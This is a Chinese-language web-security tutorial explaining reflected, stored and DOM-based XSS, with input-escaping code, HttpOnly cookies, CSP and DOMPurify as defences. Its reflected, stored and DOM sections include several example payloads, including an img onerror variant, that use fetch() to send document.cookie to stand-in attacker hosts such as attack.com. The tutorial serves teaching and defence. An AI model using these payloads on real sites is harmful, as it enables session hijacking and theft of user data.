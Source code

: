 [toc]

# XSS 攻击

## 1. 前言

XSS (Corss Site Scripting)也即跨站脚本攻击，攻击出现的原因一般是因为 Web 程序对用于的输入过滤不足导致的一种漏洞，攻击者可以把恶意的脚本代码注入到网页之中，当其他用户浏览时就会执行其中的恶意代码，对受害者产生各种攻击。XSS 一般分为三种类型：

反射型，存储型，DOM型

## 2. 反射型(url)

反射型 XSS 攻击的恶意脚本并没有被存储到后端数据库中，而是诱导用户点击某个精心拼接的恶意链接，从而达到攻击的目的。

举个例子：

```js
// 当用户在搜索时，比如
http://www.xxx.com/music?name='青花瓷'
```

后端假设返回搜索的name，而这时候攻击者在 url 后面拼接一个恶意的script，如 alert(1);

```js
http://www.xxx.com/music?name='青花瓷'<script>alert(1)</script>
```

又假如拼接的是一个 documen.cookie呢？然后将这个cookie发到它自己的电脑上，cookie就被盗取了

```js
http://www.xxx.com/music?name='青花瓷'<script>fetch(`http://恶意者的网站.com/>cookie=${document.cooki}`)</script>
```

造成反射型 XSS 攻击的原因是服务端没有过滤scritp， 所以解决方案很简单，在服务器对用户的输入进行过滤，过滤方案很多。

一种方式是对用户输入进行 encode，比如：

```js
encodeURIComponent(req.query.name);
```

第二种方式就是替换掉特殊字符，比如 `<` `&` 等，只要替换掉，自然就不会解析了

```js
function replaceSpecialSymbol(str) {
  return str
    .replace(/&/g, '&amp;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&apos;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;');
}
```

另外，如果后端登录验证是基于 cookie的话，最好将其设置为 HttpOnly,这样攻击者就无法利用 JS 脚本在前端获取到 Cookie了

## 3. 存储型（表单）

与反射型不同，存储型 XSS 攻击是指当用户的输入包含了恶意脚本，服务端未经过转义就存储到数据库，访问页面会触发恶意脚本执行，而导致的攻击。

假如在某网站上有一篇爆款文章：`https://xxx.com/articles/1`

攻击者在文章下面发表了一篇评论，内容中包含了 script 脚本：

```bash
文章写的真棒！<script>fetch(`http://attack.com/cookies?cookie=${document.cookie}`)</script>
```

如果服务端直接把评论字符串保存到数据库了，下次只要有用户访问该文章时，包含恶意脚本的评论内容被返回，把当前用户的 cookie 发送到攻击者的服务器！

可以看到，用户的 Cookie 马上被发送到了攻击者的服务器。其实这种获取 Cookie 的方式还算小打小闹了，只要能够利用 xss 注入 script，黑客真的是可以「为所欲为」，例如黑客通过操作 DOM 的方式，分分钟把你的网站变成赌博网站、色情网站...，

可以看到，存储型 XSS 也是因为恶意代码未经转义直接被插入到响应的 HTML 里的，然后被浏览器执行导致攻击，所以解决方案也是对用户输入进行过滤，过滤方案与上面讲的反射型一致。

## 4. DOM型（onerror）

DOM 型 XSS 与反射型或存储型 XSS 的区别在于，DOM 型在服务器返回的网页或脚本中是看不到恶意代码的，而是在更新 DOM 树的时候触发了恶意脚本的执行。

我们来看一则模拟案例，前端开发人员未经过滤就直接把用户输入插入到 HTML 中：

```html
<input id="input" type="text" />
<button onclick="container.innerHTML = input.value">点击</button>
<p id="container"></p>
```

试想一下，如果此时用户输入了下面一段恶意脚本的话会发生什么？

```bash
<script>fetch(`https://attack.com?cookie=${document.cookie}`)</script>
```

值得庆幸的是，大部分现代浏览器都实现了 HTML5 的 [安全规范](https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML)

但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://attack.com/cookies?cookie=${document.cookie}`)" />
```

恶意脚本依然在 onerror 回调中被触发了！

## 5. 防御方案

这里推荐使用 [DOMPurify](https://github.com/cure53/DOMPurify) 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。

### XSS 攻击简介

XSS（Cross-Site Scripting，跨站脚本攻击）是一种常见的网络安全漏洞，它允许攻击者将恶意脚本注入到其他用户会浏览的正常网页中。当其他用户浏览这些网页时，嵌入其中的恶意脚本会在用户的浏览器中执行，从而允许攻击者窃取用户数据、劫持用户会话、破坏网页内容或者进行其他恶意行为。

XSS 攻击通常分为以下三种类型：

1. **反射型 XSS（Non-Persistent XSS）**：这种攻击通过诱使用户点击一个恶意链接来实现，该链接包含了攻击脚本。当用户点击链接时，恶意脚本作为请求的一部分发送到服务器，然后服务器将脚本作为响应的一部分返回，并在用户的浏览器中执行。

2. **存储型 XSS（Persistent XSS）**：这种攻击将恶意脚本直接存储在目标服务器上（例如，在数据库、消息论坛、访客留言等位置）。当其他用户访问受影响的页面时，恶意脚本会被加载并执行。

3. **DOM 基础型 XSS（DOM-based XSS）**：这种攻击是通过操纵页面的DOM（文档对象模型）来实现的，攻击脚本通常是由客户端脚本（如JavaScript）在浏览器中动态生成的，而不是来自服务器的响应。

### XSS 攻击例子

假设有一个简单的网站，它允许用户输入搜索词并将其显示在页面上。如果网站没有正确地对用户输入进行处理，攻击者可以输入以下内容：

```html
<script>alert('XSS');</script>
```

如果用户输入被直接插入到页面中，这段脚本就会在其他用户的浏览器中执行，弹出一个警告框。这是一个反射型 XSS 的简单例子。

对于存储型 XSS，攻击者可能会在一个论坛帖子中插入恶意脚本，如：

```html
<script>var cookies = document.cookie; /* 发送到攻击者的服务器 */</script>
```

当其他用户浏览这个帖子时，脚本会执行并可能将用户的 cookie 发送到攻击者控制的服务器，从而泄露用户的会话信息。

### 预防 XSS 攻击的手段

1. **输入验证**：对所有用户输入进行严格的验证，拒绝任何可疑的输入。

2. **输出编码**：在将用户输入插入到HTML页面、URL、JavaScript、CSS等中时，对其进行适当的编码或转义，以防止恶意脚本的执行。

3. **使用安全的API**：使用不会自动执行用户输入的API，例如使用 `textContent` 而不是 `innerHTML`。

4. **内容安全策略（CSP）**：实施内容安全策略，限制网页可以加载和执行的资源。

5. **使用HTTPOnly和Secure标志**：对于敏感的cookie，使用HTTPOnly标志可以防止JavaScript访问cookie，而Secure标志确保cookie仅通过安全的HTTPS连接传输。

6. **框架和库**：使用现代的Web开发框架和库，它们通常提供了一些内置的XSS防护措施。

7. **验证和清理富文本输入**：如果允许用户输入HTML，使用库如DOMPurify来清理这些输入，移除潜在的恶意脚本。

8. **定期更新和补丁**：保持系统、框架和库的更新，以确保已知的安全漏洞得到修复。

通过这些措施，可以显著降低XSS攻击的风险。然而，保护网站不受XSS攻击的关键在于始终保持警惕，并将安全作为开发过程中的一个持续考虑因素。

